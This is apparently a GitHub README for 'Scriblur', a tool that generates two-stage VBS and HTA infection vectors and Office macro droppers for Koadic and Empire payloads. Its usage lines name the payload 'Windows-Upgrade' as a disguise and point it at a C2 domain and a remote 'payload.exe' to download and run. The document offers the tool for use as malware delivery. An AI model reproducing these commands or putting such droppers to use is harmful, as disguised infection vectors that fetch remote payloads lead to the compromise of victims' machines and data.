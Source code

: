 # Scriblur
The beginnings of a C2 framework. Except minus all the C2 stuff so far. Currently generates
a dual stage VBS infection vector, and a dual stage HTA infection vector. The variables take
into account C2 addresses, Koadic/Empire payloads, and a few delivery mechanisms. The payload
files are output to an aptly named directory "Payloads" that is created if not already present.

# Installation & Usage
Scriblur is a breeze to use. Simply clone the directory, and cd into it.

For the HTA payload:
  python Scriblur.py -n Windows-Upgade -p b64encodedpayload -c amazon.com/c2/domain

## HTA Example
![alt text](https://github.com/nins3i/Scriblur/blob/master/HTA.png)

For the Macro Subroutine:
  python Scriblur.py -n Windows-Upgrade -e amazon.com/final/payload.exe

## Macro Example
![alt text](https://github.com/nins3i/Scriblur/blob/master/Macro.png)
